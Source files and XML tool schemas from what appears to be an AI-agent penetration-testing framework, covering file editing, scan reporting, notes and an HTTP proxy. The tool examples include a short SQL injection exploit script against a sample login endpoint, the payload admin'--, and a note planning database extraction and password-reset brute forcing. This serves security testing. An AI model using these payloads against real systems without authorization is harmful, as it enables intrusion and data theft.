  - insert: Insert new_str after the specified line number
  - undo_edit: Revert the last edit made to the file
    </notes>
    <examples>
  # View a file
  <function=str_replace_editor>
  <parameter=command>view</parameter>
  <parameter=path>/home/user/project/file.py</parameter>
  </function>

  # Create a file
  <function=str_replace_editor>
  <parameter=command>create</parameter>
  <parameter=path>/home/user/project/exploit.py</parameter>
  <parameter=file_text>#!/usr/bin/env python3
"""SQL Injection exploit for Acme Corp login endpoint."""

import requests
import sys

TARGET = "https://app.acme-corp.com/api/v1/auth/login"

def exploit(username: str) -> dict:
    payload = {
        "username": f"{username}'--",
        "password": "anything"
    }
    response = requests.post(TARGET, json=payload, timeout=10)
    return response.json()

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} <username>")
        sys.exit(1)

    result = exploit(sys.argv[1])
    print(f"Result: {result}")</parameter>
  </function>

  # Replace text in file
  <function=str_replace_editor>
  <parameter=command>str_replace</parameter>
  <parameter=path>/home/user/project/file.py</parameter>
  <parameter=old_str>old_function()</parameter>
  <parameter=new_str>new_function()</parameter>
  </function>

  # Insert text after line 10
  <function=str_replace_editor>
  <parameter=command>insert</parameter>
  <parameter=path>/home/user/project/file.py</parameter>
  <parameter=insert_line>10</parameter>
  <parameter=new_str>def validate_input(user_input: str) -> bool:
    """Validate user input to prevent injection attacks."""
    forbidden_chars = ["'", '"', ";", "--", "/*", "*/"]
    for char in forbidden_chars:
        if char in user_input:
            return False
    return True</parameter>
  </function>

  # Replace code block
  <function=str_replace_editor>
  <parameter=command>str_replace</parameter>
  <parameter=path>/home/user/project/auth.py</parameter>
  <parameter=old_str>def authenticate(username, password):
    query = f"SELECT * FROM users WHERE username = '{username}'"
    result = db.execute(query)
    return result</parameter>
  <parameter=new_str>def authenticate(username, password):
    query = "SELECT * FROM users WHERE username = %s"
    result = db.execute(query, (username,))
    return result</parameter>
  </function>
    </examples>
  </tool>
</tools>
```

## File: `strix/tools/file_edit/__init__.py`
```python
from .file_edit_actions import list_files, search_files, str_replace_editor


__all__ = ["list_files", "search_files", "str_replace_editor"]
```

## File: `strix/tools/finish/finish_actions.py`
```python
from typing import Any

from strix.tools.registry import register_tool


def _validate_root_agent(agent_state: Any) -> dict[str, Any] | None:
    if agent_state and hasattr(agent_state, "parent_id") and agent_state.parent_id is not None:
        return {
            "success": False,
            "error": "finish_scan_wrong_agent",
            "message": "This tool can only be used by the root/main agent",
            "suggestion": "If you are a subagent, use agent_finish from agents_graph tool instead",
        }
    return None


def _check_active_agents(agent_state: Any = None) -> dict[str, Any] | None:
    try:
        from strix.tools.agents_graph.agents_graph_actions import _agent_graph

        if agent_state and agent_state.agent_id:
            current_agent_id = agent_state.agent_id
        else:
            return None

        active_agents = []
        stopping_agents = []

        for agent_id, node in _agent_graph["nodes"].items():
            if agent_id == current_agent_id:
                continue

            status = node.get("status", "unknown")
            if status == "running":
                active_agents.append(
                    {
                        "id": agent_id,
                        "name": node.get("name", "Unknown"),
                        "task": node.get("task", "Unknown task")[:300],
                        "status": status,
                    }
                )
            elif status == "stopping":
                stopping_agents.append(
                    {
                        "id": agent_id,
                        "name": node.get("name", "Unknown"),
                        "task": node.get("task", "Unknown task")[:300],
                        "status": status,
                    }
                )

        if active_agents or stopping_agents:
            response: dict[str, Any] = {
                "success": False,
                "error": "agents_still_active",
                "message": "Cannot finish scan: agents are still active",
            }

            if active_agents:
                response["active_agents"] = active_agents

            if stopping_agents:
                response["stopping_agents"] = stopping_agents

            response["suggestions"] = [
                "Use wait_for_message to wait for all agents to complete",
                "Use send_message_to_agent if you need agents to complete immediately",
                "Check agent_status to see current agent states",
            ]

            response["total_active"] = len(active_agents) + len(stopping_agents)

            return response

    except ImportError:
        pass
    except Exception:
        import logging

        logging.exception("Error checking active agents")

    return None


@register_tool(sandbox_execution=False)
def finish_scan(
    executive_summary: str,
    methodology: str,
    technical_analysis: str,
    recommendations: str,
    agent_state: Any = None,
) -> dict[str, Any]:
    validation_error = _validate_root_agent(agent_state)
    if validation_error:
        return validation_error

    active_agents_error = _check_active_agents(agent_state)
    if active_agents_error:
        return active_agents_error

    validation_errors = []

    if not executive_summary or not executive_summary.strip():
        validation_errors.append("Executive summary cannot be empty")
    if not methodology or not methodology.strip():
        validation_errors.append("Methodology cannot be empty")
    if not technical_analysis or not technical_analysis.strip():
        validation_errors.append("Technical analysis cannot be empty")
    if not recommendations or not recommendations.strip():
        validation_errors.append("Recommendations cannot be empty")

    if validation_errors:
        return {"success": False, "message": "Validation failed", "errors": validation_errors}

    try:
        from strix.telemetry.tracer import get_global_tracer

        tracer = get_global_tracer()
        if tracer:
            tracer.update_scan_final_fields(
                executive_summary=executive_summary.strip(),
                methodology=methodology.strip(),
                technical_analysis=technical_analysis.strip(),
                recommendations=recommendations.strip(),
            )

            vulnerability_count = len(tracer.vulnerability_reports)

            return {
                "success": True,
                "scan_completed": True,
                "message": "Scan completed successfully",
                "vulnerabilities_found": vulnerability_count,
            }

        import logging

        logging.warning("Current tracer not available - scan results not stored")

    except (ImportError, AttributeError) as e:
        return {"success": False, "message": f"Failed to complete scan: {e!s}"}
    else:
        return {
            "success": True,
            "scan_completed": True,
            "message": "Scan completed (not persisted)",
            "warning": "Results could not be persisted - tracer unavailable",
        }
```

## File: `strix/tools/finish/finish_actions_schema.xml`
```xml
<tools>
  <tool name="finish_scan">
    <description>Complete the security scan by providing the final assessment fields as full penetration test report.

IMPORTANT: This tool can ONLY be used by the root/main agent.
Subagents must use agent_finish from agents_graph tool instead.

IMPORTANT: This tool will NOT allow finishing if any agents are still running or stopping.
You must wait for all agents to complete before using this tool.

This tool directly updates the scan report data:
- executive_summary
- methodology
- technical_analysis
- recommendations

All fields are REQUIRED and map directly to the final report.

This must be the last tool called in the scan. It will:
1. Verify you are the root agent
2. Check all subagents have completed
3. Update the scan with your provided fields
4. Mark the scan as completed
5. Stop agent execution

Use this tool when:
- You are the main/root agent conducting the security assessment
- ALL subagents have completed their tasks (no agents are "running" or "stopping")
- You have completed all testing phases
- You are ready to conclude the entire security assessment

IMPORTANT: Calling this tool multiple times will OVERWRITE any previous scan report.
Make sure you include ALL findings and details in a single comprehensive report.

If agents are still running, the tool will:
- Show you which agents are still active
- Suggest using wait_for_message to wait for completion
- Suggest messaging agents if immediate completion is needed

NOTE: Make sure the vulnerabilities found were reported with create_vulnerability_report tool, otherwise they will not be tracked and you will not be rewarded.
But make sure to not report the same vulnerability multiple times.

Professional, customer-facing penetration test report rules (PDF-ready):
- Do NOT include internal or system details: never mention local/absolute paths (e.g., "/workspace"), internal tools, agents, orchestrators, sandboxes, models, system prompts/instructions, connection/tooling issues, or tester environment details.
- Tone and style: formal, objective, third-person, concise. No internal checklists or engineering runbooks. Content must read as a polished client deliverable.
- Structure across fields should align to standard pentest reports:
  - Executive summary: business impact, risk posture, notable criticals, remediation theme.
  - Methodology: industry-standard methods (e.g., OWASP, OSSTMM, NIST), scope, constraints—no internal execution notes.
  - Technical analysis: consolidated findings overview referencing created vulnerability reports; avoid raw logs.
  - Recommendations: prioritized, actionable, aligned to risk and best practices.
</description>
    <parameters>
      <parameter name="executive_summary" type="string" required="true">
        <description>High-level summary for non-technical stakeholders. Include: risk posture assessment, key findings in business context, potential business impact (data exposure, compliance, reputation), and an overarching remediation theme. Write in clear, accessible language for executive leadership.</description>
      </parameter>
      <parameter name="methodology" type="string" required="true">
        <description>Testing methodology and scope. Include: frameworks and standards followed (e.g., OWASP WSTG, PTES), engagement type and approach (black-box, gray-box), in-scope assets and target environment, categories of testing activities performed, and evidence validation standards applied.</description>
      </parameter>
      <parameter name="technical_analysis" type="string" required="true">
        <description>Consolidated overview of confirmed findings and risk patterns. Include: severity model used, a high-level summary of each finding with its severity rating, and systemic root causes or recurring themes observed across findings. Reference individual vulnerability reports for reproduction details — do not duplicate full evidence here.</description>
      </parameter>
      <parameter name="recommendations" type="string" required="true">
        <description>Prioritized, actionable remediation guidance organized by urgency (Immediate, Short-term, Medium-term). Each recommendation should provide specific technical remediation steps. Conclude with retest and validation guidance.</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing success status, vulnerability count, and completion message. If agents are still running, returns details about active agents and suggested actions.</description>
    </returns>
    <examples>

<function=finish_scan>
  <parameter=executive_summary>An external penetration test of the Acme Customer Portal and associated API identified multiple security weaknesses that, if exploited, could result in unauthorized access to customer data, cross-tenant exposure, and access to internal network resources.

Overall risk posture: Elevated.

Key findings
- Confirmed server-side request forgery (SSRF) in a URL preview capability that enables the application to initiate outbound requests to attacker-controlled destinations and internal network ranges.
- Identified broken access control patterns in business-critical workflows that can enable cross-tenant data access (tenant isolation failures).
- Observed session and authorization hardening gaps that materially increase risk when combined with other weaknesses.

Business impact
- Increased likelihood of sensitive data exposure across customers/tenants, including invoices, orders, and account information.
- Increased risk of internal service exposure through server-side outbound request functionality (including link-local and private network destinations).
- Increased potential for account compromise and administrative abuse if tokens are stolen or misused.

Remediation theme
Prioritize eliminating SSRF pathways and centralizing authorization enforcement (deny-by-default). Follow with session hardening and monitoring improvements, then validate with a focused retest.</parameter>
  <parameter=methodology>The assessment was conducted in accordance with the OWASP Web Security Testing Guide (WSTG) and aligned to industry-standard penetration testing methodology.

Engagement details
- Assessment type: External penetration test (black-box with limited gray-box context)
- Target environment: Production-equivalent staging

Scope (in-scope assets)
- Web application: https://app.acme-corp.com
- API base: https://app.acme-corp.com/api/v1/

High-level testing activities
- Reconnaissance and attack-surface mapping (routes, parameters, workflows)
- Authentication and session management review (token handling, session lifetime, sensitive actions)
- Authorization and tenant-isolation testing (object access and privilege boundaries)
- Input handling and server-side request testing (URL fetchers, imports, previews, callbacks)
- File handling and content rendering review (uploads, previews, unsafe content types)
- Configuration review (transport security, security headers, caching behavior, error handling)

Evidence handling and validation standard
Only validated issues with reproducible impact were treated as findings. Each finding was documented with clear reproduction steps and sufficient evidence to support remediation and verification testing.</parameter>
  <parameter=technical_analysis>This section provides a consolidated view of the confirmed findings and observed risk patterns. Detailed reproduction steps and evidence are documented in the individual vulnerability reports.

Severity model
Severity reflects a combination of exploitability and potential impact to confidentiality, integrity, and availability, considering realistic attacker capabilities.

Confirmed findings
1) Server-side request forgery (SSRF) in URL preview (Critical)
The application fetches user-supplied URLs server-side to generate previews. Validation controls were insufficient to prevent access to internal and link-local destinations. This creates a pathway to internal network enumeration and potential access to sensitive internal services. Redirect and DNS/normalization bypass risk must be assumed unless controls are comprehensive and applied on every request hop.

2) Broken tenant isolation in order/invoice workflows (High)
Multiple endpoints accepted object identifiers without consistently enforcing tenant ownership. This is indicative of broken function- and object-level authorization checks. In practice, this can enable cross-tenant access to business-critical resources (viewing or modifying data outside the attacker’s tenant boundary).

3) Administrative action hardening gaps (Medium)
Several sensitive actions lacked defense-in-depth controls (e.g., re-authentication for high-risk actions, consistent authorization checks across related endpoints, and protections against session misuse). While not all behaviors were immediately exploitable in isolation, they increase the likelihood and blast radius of account compromise when chained with other vulnerabilities.

4) Unsafe file preview/content handling patterns (Medium)
File preview and rendering behaviors can create exposure to script execution or content-type confusion if unsafe formats are rendered inline. Controls should be consistent: strong content-type validation, forced download where appropriate, and hardening against active content.

Systemic themes and root causes
- Authorization enforcement appears distributed and inconsistent across endpoints instead of centralized and testable.
- Outbound request functionality lacks a robust, deny-by-default policy for destination validation.
- Hardening controls (session lifetime, sensitive-action controls, logging) are applied unevenly, increasing the likelihood of successful attack chains.</parameter>
  <parameter=recommendations>The following recommendations are prioritized by urgency and potential risk reduction.

Immediate priority
These items address the most severe confirmed risks and should be prioritized for immediate remediation.

1. Remediate server-side request forgery
Implement a strict destination allowlist with a deny-by-default policy for all server-initiated outbound requests. Block private, loopback, and link-local address ranges (IPv4 and IPv6) at the application layer after DNS resolution. Re-validate destination addresses on every redirect hop. Apply URL normalization to prevent bypass via ambiguous encodings, alternate IP notations, or DNS rebinding.

2. Enforce network-level egress controls
Restrict application runtime network egress to prevent outbound connections to internal and link-local address spaces at the network layer. Route legitimate outbound requests through a policy-enforcing egress proxy with request logging and alerting.

3. Enforce tenant-scoped authorization
Implement consistent tenant-ownership validation on every read and write path for business-critical resources, including orders, invoices, and account data. Adopt centralized, deny-by-default authorization middleware that enforces object- and function-level access controls uniformly across all endpoints.

Short-term priority
These items reduce residual risk and harden defensive controls.

4. Centralize and harden authorization logic
Consolidate authorization enforcement into a centralized policy layer. Require re-authentication for high-risk administrative actions. Add regression tests covering cross-tenant access, privilege escalation, and negative authorization cases.

5. Harden session management
Enforce secure cookie attributes (Secure, HttpOnly, SameSite). Implement session rotation after authentication events and privilege changes. Reduce session lifetime for privileged contexts. Apply consistent CSRF protections to all state-changing operations.

Medium-term priority
These items strengthen defense-in-depth and improve operational visibility.

6. Harden file handling and content rendering
Enforce strict content-type allowlists for file uploads and previews. Force download disposition for active content types. Implement content sanitization and scanning where applicable. Prevent inline rendering of potentially executable formats.

7. Improve security monitoring and detection
Implement alerting for high-risk events: repeated authorization failures, anomalous outbound request patterns, sensitive administrative actions, and unusual access to business-critical resources. Ensure sufficient logging granularity to support incident investigation.

Retest and validation
Conduct a focused retest after remediation of immediate-priority items to verify the effectiveness of SSRF controls, tenant isolation enforcement, and session hardening. Validate that no bypasses exist through redirect chains, DNS rebinding, or encoding edge cases. Repeat authorization regression tests to confirm consistent enforcement across all endpoints.</parameter>
</function>
    </examples>
  </tool>
</tools>
```

## File: `strix/tools/finish/__init__.py`
```python
from .finish_actions import finish_scan


__all__ = ["finish_scan"]
```

## File: `strix/tools/notes/notes_actions.py`
```python
import uuid
from datetime import UTC, datetime
from typing import Any

from strix.tools.registry import register_tool


_notes_storage: dict[str, dict[str, Any]] = {}


def _filter_notes(
    category: str | None = None,
    tags: list[str] | None = None,
    search_query: str | None = None,
) -> list[dict[str, Any]]:
    filtered_notes = []

    for note_id, note in _notes_storage.items():
        if category and note.get("category") != category:
            continue

        if tags:
            note_tags = note.get("tags", [])
            if not any(tag in note_tags for tag in tags):
                continue

        if search_query:
            search_lower = search_query.lower()
            title_match = search_lower in note.get("title", "").lower()
            content_match = search_lower in note.get("content", "").lower()
            if not (title_match or content_match):
                continue

        note_with_id = note.copy()
        note_with_id["note_id"] = note_id
        filtered_notes.append(note_with_id)

    filtered_notes.sort(key=lambda x: x.get("created_at", ""), reverse=True)
    return filtered_notes


@register_tool(sandbox_execution=False)
def create_note(
    title: str,
    content: str,
    category: str = "general",
    tags: list[str] | None = None,
) -> dict[str, Any]:
    try:
        if not title or not title.strip():
            return {"success": False, "error": "Title cannot be empty", "note_id": None}

        if not content or not content.strip():
            return {"success": False, "error": "Content cannot be empty", "note_id": None}

        valid_categories = ["general", "findings", "methodology", "questions", "plan"]
        if category not in valid_categories:
            return {
                "success": False,
                "error": f"Invalid category. Must be one of: {', '.join(valid_categories)}",
                "note_id": None,
            }

        note_id = str(uuid.uuid4())[:5]
        timestamp = datetime.now(UTC).isoformat()

        note = {
            "title": title.strip(),
            "content": content.strip(),
            "category": category,
            "tags": tags or [],
            "created_at": timestamp,
            "updated_at": timestamp,
        }

        _notes_storage[note_id] = note

    except (ValueError, TypeError) as e:
        return {"success": False, "error": f"Failed to create note: {e}", "note_id": None}
    else:
        return {
            "success": True,
            "note_id": note_id,
            "message": f"Note '{title}' created successfully",
        }


@register_tool(sandbox_execution=False)
def list_notes(
    category: str | None = None,
    tags: list[str] | None = None,
    search: str | None = None,
) -> dict[str, Any]:
    try:
        filtered_notes = _filter_notes(category=category, tags=tags, search_query=search)

        return {
            "success": True,
            "notes": filtered_notes,
            "total_count": len(filtered_notes),
        }

    except (ValueError, TypeError) as e:
        return {
            "success": False,
            "error": f"Failed to list notes: {e}",
            "notes": [],
            "total_count": 0,
        }


@register_tool(sandbox_execution=False)
def update_note(
    note_id: str,
    title: str | None = None,
    content: str | None = None,
    tags: list[str] | None = None,
) -> dict[str, Any]:
    try:
        if note_id not in _notes_storage:
            return {"success": False, "error": f"Note with ID '{note_id}' not found"}

        note = _notes_storage[note_id]

        if title is not None:
            if not title.strip():
                return {"success": False, "error": "Title cannot be empty"}
            note["title"] = title.strip()

        if content is not None:
            if not content.strip():
                return {"success": False, "error": "Content cannot be empty"}
            note["content"] = content.strip()

        if tags is not None:
            note["tags"] = tags

        note["updated_at"] = datetime.now(UTC).isoformat()

        return {
            "success": True,
            "message": f"Note '{note['title']}' updated successfully",
        }

    except (ValueError, TypeError) as e:
        return {"success": False, "error": f"Failed to update note: {e}"}


@register_tool(sandbox_execution=False)
def delete_note(note_id: str) -> dict[str, Any]:
    try:
        if note_id not in _notes_storage:
            return {"success": False, "error": f"Note with ID '{note_id}' not found"}

        note_title = _notes_storage[note_id]["title"]
        del _notes_storage[note_id]

    except (ValueError, TypeError) as e:
        return {"success": False, "error": f"Failed to delete note: {e}"}
    else:
        return {
            "success": True,
            "message": f"Note '{note_title}' deleted successfully",
        }
```

## File: `strix/tools/notes/notes_actions_schema.xml`
```xml
<tools>
  <tool name="create_note">
    <description>Create a personal note for observations, findings, and research during the scan.</description>
    <details>Use this tool for documenting discoveries, observations, methodology notes, and questions.
  This is your personal notepad for recording information you want to remember or reference later.
  For tracking actionable tasks, use the todo tool instead.</details>
    <parameters>
      <parameter name="title" type="string" required="true">
        <description>Title of the note</description>
      </parameter>
      <parameter name="content" type="string" required="true">
        <description>Content of the note</description>
      </parameter>
      <parameter name="category" type="string" required="false">
        <description>Category to organize the note (default: "general", "findings", "methodology", "questions", "plan")</description>
      </parameter>
      <parameter name="tags" type="string" required="false">
        <description>Tags for categorization</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - note_id: ID of the created note - success: Whether the note was created successfully</description>
    </returns>
    <examples>
  # Document an interesting finding
  <function=create_note>
  <parameter=title>Authentication Bypass Findings</parameter>
  <parameter=content>Discovered multiple authentication bypass vectors in the login system:

1. SQL Injection in username field
   - Payload: admin'--
   - Result: Full authentication bypass
   - Endpoint: POST /api/v1/auth/login

2. JWT Token Weakness
   - Algorithm confusion attack possible (RS256 -> HS256)
   - Token expiration is 24 hours but no refresh rotation
   - Token stored in localStorage (XSS risk)

3. Password Reset Flow
   - Reset tokens are only 6 digits (brute-forceable)
   - No rate limiting on reset attempts
   - Token valid for 48 hours

Next Steps:
- Extract full database via SQL injection
- Test JWT manipulation attacks
- Attempt password reset brute force</parameter>
  <parameter=category>findings</parameter>
  <parameter=tags>["auth", "sqli", "jwt", "critical"]</parameter>
  </function>

  # Methodology note
  <function=create_note>
  <parameter=title>API Endpoint Mapping Complete</parameter>
  <parameter=content>Completed comprehensive API enumeration using multiple techniques:

Discovered Endpoints:
- /api/v1/auth/* - Authentication endpoints (login, register, reset)
- /api/v1/users/* - User management (profile, settings, admin)
- /api/v1/orders/* - Order management (IDOR vulnerability confirmed)
- /api/v1/admin/* - Admin panel (403 but may be bypassable)
- /api/internal/* - Internal APIs (should not be exposed)

Methods Used:
- Analyzed JavaScript bundles for API calls
- Bruteforced common paths with ffuf
- Reviewed OpenAPI/Swagger documentation at /api/docs
- Monitored traffic during normal application usage

Priority Targets:
The /api/internal/* endpoints are high priority as they appear to lack authentication checks based on error message differences.</parameter>
  <parameter=category>methodology</parameter>
  <parameter=tags>["api", "enumeration", "recon"]</parameter>
  </function>
    </examples>
  </tool>
  <tool name="delete_note">
    <description>Delete a note.</description>
    <parameters>
      <parameter name="note_id" type="string" required="true">
        <description>ID of the note to delete</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - success: Whether the note was deleted successfully</description>
    </returns>
    <examples>
  <function=delete_note>
  <parameter=note_id>note_123</parameter>
  </function>
    </examples>
  </tool>
  <tool name="list_notes">
    <description>List existing notes with optional filtering and search.</description>
    <parameters>
      <parameter name="category" type="string" required="false">
        <description>Filter by category</description>
      </parameter>
      <parameter name="tags" type="string" required="false">
        <description>Filter by tags (returns notes with any of these tags)</description>
      </parameter>
      <parameter name="search" type="string" required="false">
        <description>Search query to find in note titles and content</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - notes: List of matching notes - total_count: Total number of notes found</description>
    </returns>
    <examples>
  # List all findings
  <function=list_notes>
  <parameter=category>findings</parameter>
  </function>

  # Search for SQL injection related notes
  <function=list_notes>
  <parameter=search>SQL injection</parameter>
  </function>

  # Search within a specific category
  <function=list_notes>
  <parameter=search>admin</parameter>
  <parameter=category>findings</parameter>
  </function>
    </examples>
  </tool>
  <tool name="update_note">
    <description>Update an existing note.</description>
    <parameters>
      <parameter name="note_id" type="string" required="true">
        <description>ID of the note to update</description>
      </parameter>
      <parameter name="title" type="string" required="false">
        <description>New title for the note</description>
      </parameter>
      <parameter name="content" type="string" required="false">
        <description>New content for the note</description>
      </parameter>
      <parameter name="tags" type="string" required="false">
        <description>New tags for the note</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - success: Whether the note was updated successfully</description>
    </returns>
    <examples>
  <function=update_note>
  <parameter=note_id>note_123</parameter>
  <parameter=content>Updated content with new findings...</parameter>
  </function>
    </examples>
  </tool>
</tools>
```

## File: `strix/tools/notes/__init__.py`
```python
from .notes_actions import (
    create_note,
    delete_note,
    list_notes,
    update_note,
)


__all__ = [
    "create_note",
    "delete_note",
    "list_notes",
    "update_note",
]
```

## File: `strix/tools/proxy/proxy_actions.py`
```python
from typing import Any, Literal

from strix.tools.registry import register_tool


RequestPart = Literal["request", "response"]


@register_tool
def list_requests(
    httpql_filter: str | None = None,
    start_page: int = 1,
    end_page: int = 1,
    page_size: int = 50,
    sort_by: Literal[
        "timestamp",
        "host",
        "method",
        "path",
        "status_code",
        "response_time",
        "response_size",
        "source",
    ] = "timestamp",
    sort_order: Literal["asc", "desc"] = "desc",
    scope_id: str | None = None,
) -> dict[str, Any]:
    from .proxy_manager import get_proxy_manager

    manager = get_proxy_manager()
    return manager.list_requests(
        httpql_filter, start_page, end_page, page_size, sort_by, sort_order, scope_id
    )


@register_tool
def view_request(
    request_id: str,
    part: RequestPart = "request",
    search_pattern: str | None = None,
    page: int = 1,
    page_size: int = 50,
) -> dict[str, Any]:
    from .proxy_manager import get_proxy_manager

    manager = get_proxy_manager()
    return manager.view_request(request_id, part, search_pattern, page, page_size)


@register_tool
def send_request(
    method: str,
    url: str,
    headers: dict[str, str] | None = None,
    body: str = "",
    timeout: int = 30,
) -> dict[str, Any]:
    from .proxy_manager import get_proxy_manager

    if headers is None:
        headers = {}
    manager = get_proxy_manager()
    return manager.send_simple_request(method, url, headers, body, timeout)


@register_tool
def repeat_request(
    request_id: str,
    modifications: dict[str, Any] | None = None,
) -> dict[str, Any]:
    from .proxy_manager import get_proxy_manager

    if modifications is None:
        modifications = {}
    manager = get_proxy_manager()
    return manager.repeat_request(request_id, modifications)


@register_tool
def scope_rules(
    action: Literal["get", "list", "create", "update", "delete"],
    allowlist: list[str] | None = None,
    denylist: list[str] | None = None,
    scope_id: str | None = None,
    scope_name: str | None = None,
) -> dict[str, Any]:
    from .proxy_manager import get_proxy_manager

    manager = get_proxy_manager()
    return manager.scope_rules(action, allowlist, denylist, scope_id, scope_name)


@register_tool
def list_sitemap(
    scope_id: str | None = None,
    parent_id: str | None = None,
    depth: Literal["DIRECT", "ALL"] = "DIRECT",
    page: int = 1,
) -> dict[str, Any]:
    from .proxy_manager import get_proxy_manager

    manager = get_proxy_manager()
    return manager.list_sitemap(scope_id, parent_id, depth, page)


@register_tool
def view_sitemap_entry(
    entry_id: str,
) -> dict[str, Any]:
    from .proxy_manager import get_proxy_manager

    manager = get_proxy_manager()
    return manager.view_sitemap_entry(entry_id)
```

## File: `strix/tools/proxy/proxy_actions_schema.xml`
```xml
<tools>
  <tool name="list_requests">
    <description>List and filter proxy requests using HTTPQL with pagination.</description>
    <parameters>
      <parameter name="httpql_filter" type="string" required="false">
        <description>HTTPQL filter using Caido's syntax:

        Integer fields (port, code, roundtrip, id) - eq, gt, gte, lt, lte, ne:
        - resp.code.eq:200, resp.code.gte:400, req.port.eq:443

        Text/byte fields (ext, host, method, path, query, raw) - regex:
        - req.method.regex:"POST", req.path.regex:"/api/.*", req.host.regex:".*.com"

        Date fields (created_at) - gt, lt with ISO formats:
        - req.created_at.gt:"2024-01-01T00:00:00Z"

        Special: source:intercept, preset:"name"</description>
      </parameter>
      <parameter name="start_page" type="integer" required="false">
        <description>Starting page (1-based)</description>
      </parameter>
      <parameter name="end_page" type="integer" required="false">
        <description>Ending page (1-based, inclusive)</description>
      </parameter>
      <parameter name="page_size" type="integer" required="false">
        <description>Requests per page</description>
      </parameter>
      <parameter name="sort_by" type="string" required="false">
        <description>Sort field from: "timestamp", "host", "status_code", "response_time", "response_size"</description>
      </parameter>
      <parameter name="sort_order" type="string" required="false">
        <description>Sort direction ("asc" or "desc")</description>
      </parameter>
      <parameter name="scope_id" type="string" required="false">
        <description>Scope ID to filter requests (use scope_rules to manage scopes)</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing:
        - 'requests': Request objects for page range
        - 'total_count': Total matching requests
        - 'start_page', 'end_page', 'page_size': Query parameters
        - 'returned_count': Requests in response</description>
    </returns>
    <examples>
  # POST requests to API with 200 responses
  <function=list_requests>
  <parameter=httpql_filter>req.method.eq:"POST" AND req.path.cont:"/api/"</parameter>
  <parameter=sort_by>response_time</parameter>
  <parameter=scope_id>scope123</parameter>
  </function>

  # Requests within specific scope
  <function=list_requests>
  <parameter=scope_id>scope123</parameter>
  <parameter=sort_by>timestamp</parameter>
  </function>
    </examples>
  </tool>

  <tool name="view_request">
    <description>View request/response data with search and pagination.</description>
    <parameters>
      <parameter name="request_id" type="string" required="true">
        <description>Request ID</description>
      </parameter>
      <parameter name="part" type="string" required="false">
        <description>Which part to return ("request" or "response")</description>
      </parameter>
      <parameter name="search_pattern" type="string" required="false">
        <description>Regex pattern to search content. Common patterns:
        - API endpoints: r"/api/[a-zA-Z0-9._/-]+"
        - URLs: r"https?://[^\\s<>"\']+"
        - Parameters: r'[?&][a-zA-Z0-9_]+=([^&\\s<>"\']+)'
        - Reflections: input_value in content</description>
      </parameter>
      <parameter name="page" type="integer" required="false">
        <description>Page number for pagination</description>
      </parameter>
      <parameter name="page_size" type="integer" required="false">
        <description>Lines per page</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>With search_pattern (COMPACT):
        - 'matches': [{match, before, after, position}] - max 20
        - 'total_matches': Total found
        - 'truncated': If limited to 20

        Without search_pattern (PAGINATION):
        - 'content': Page content
        - 'page': Current page
        - 'showing_lines': Range display
        - 'has_more': More pages available</description>
    </returns>
    <examples>
  # Find API endpoints in response
  <function=view_request>
  <parameter=request_id>123</parameter>
  <parameter=part>response</parameter>
  <parameter=search_pattern>/api/[a-zA-Z0-9._/-]+</parameter>
  </function>
    </examples>
  </tool>

  <tool name="send_request">
    <description>Send a simple HTTP request through proxy.</description>
    <parameters>
      <parameter name="method" type="string" required="true">
        <description>HTTP method (GET, POST, etc.)</description>
      </parameter>
      <parameter name="url" type="string" required="true">
        <description>Target URL</description>
      </parameter>
      <parameter name="headers" type="dict" required="false">
        <description>Headers as {"key": "value"}</description>
      </parameter>
      <parameter name="body" type="string" required="false">
        <description>Request body</description>
      </parameter>
      <parameter name="timeout" type="integer" required="false">
        <description>Request timeout</description>
      </parameter>
    </parameters>
  </tool>

  <tool name="repeat_request">
    <description>Repeat an existing proxy request with modifications for pentesting.

    PROPER WORKFLOW:
    1. Use browser_action to browse the target application
    2. Use list_requests() to see captured proxy traffic
    3. Use repeat_request() to modify and test specific requests

    This mirrors real pentesting: browse → capture → modify → test</description>
    <parameters>
      <parameter name="request_id" type="string" required="true">
        <description>ID of the original request to repeat (from list_requests)</description>
      </parameter>
      <parameter name="modifications" type="dict" required="false">
        <description>Changes to apply to the original request:
        - "url": New URL or modify existing one
        - "params": Dict to update query parameters
        - "headers": Dict to add/update headers
        - "body": New request body (replaces original)
        - "cookies": Dict to add/update cookies</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response data with status, headers, body, timing, and request details</description>
    </returns>
    <examples>
  # Modify POST body payload
  <function=repeat_request>
  <parameter=request_id>req_789</parameter>
  <parameter=modifications>{"body": "{\"username\":\"admin\",\"password\":\"admin\"}"}</parameter>
  </function>
    </examples>
  </tool>

  <tool name="scope_rules">
    <description>Manage proxy scope patterns for domain/file filtering using Caido's scope system.</description>
    <parameters>
      <parameter name="action" type="string" required="true">
        <description>Scope action:
        - get: Get specific scope by ID or list all if no ID
        - update: Update existing scope (requires scope_id and scope_name)
        - list: List all available scopes
        - create: Create new scope (requires scope_name)
        - delete: Delete scope (requires scope_id)</description>
      </parameter>
      <parameter name="allowlist" type="list" required="false">
        <description>Domain patterns to include. Examples: ["*.example.com", "api.test.com"]</description>
      </parameter>
      <parameter name="denylist" type="list" required="false">
        <description>Patterns to exclude. Some common extensions:
        ["*.gif", "*.jpg", "*.png", "*.css", "*.js", "*.ico", "*.svg", "*woff*", "*.ttf"]</description>
      </parameter>
      <parameter name="scope_id" type="string" required="false">
        <description>Specific scope ID to operate on (required for get, update, delete)</description>
      </parameter>
      <parameter name="scope_name" type="string" required="false">
        <description>Name for scope (required for create, update)</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Depending on action:
        - get: Single scope object or error
        - list: {"scopes": [...], "count": N}
        - create/update: {"scope": {...}, "message": "..."}
        - delete: {"message": "...", "deletedId": "..."}</description>
    </returns>
    <notes>
  - Empty allowlist = allow all domains
  - Denylist overrides allowlist
  - Glob patterns: * (any), ? (single), [abc] (one of), [a-z] (range), [^abc] (none of)
  - Each scope has unique ID and can be used with list_requests(scopeId=...)
    </notes>
    <examples>
